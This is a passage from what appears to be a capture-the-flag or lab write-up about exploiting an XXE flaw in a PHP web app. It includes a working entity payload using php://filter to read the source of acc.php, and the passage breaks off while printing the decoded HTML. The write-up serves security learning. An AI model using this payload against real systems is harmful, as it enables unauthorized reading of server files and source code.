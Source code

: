 ![](gitbook/cybersecurity/images/Pasted%252520image%25252020250425131018.png)

We got LFI, `expect` wrapper is not enabled so we cannot get `RCE`, but, we can read other system file, for example, if we click on `My Account`, we get a `GET` request to `acc.php`, we can maybe get more info if we read this file, we need to use `php://filter`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=acc.php">
]>
<root>
  <name>
&xxe;</name>
<search>&xxe;
</search>
</root>
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250425131503.png)

Let's decode these contents:

```html
<!DOCTYPE html>
<html>
<head>
<style>
form
{
  border: 2px solid black;
  outline: #4CAF50 solid 3px;
  margin: auto;
  width:180px;
  padding: 20px;
  text-align: center;
}


ul {
  list-style-type: none;
  margin: 0;
  padding: 0;
  overflow: hidden;
  background-color: #333;
}

li {
  float: left;
  border-right:1px solid #bbb;
}

li:last-child {
  border-right: none;
}

li a {
  display: block;
  color: white;
  text-align: center;
  padding: 14px 16px;
  text-decoration: none;
}

li a:hover:not(.active) {
```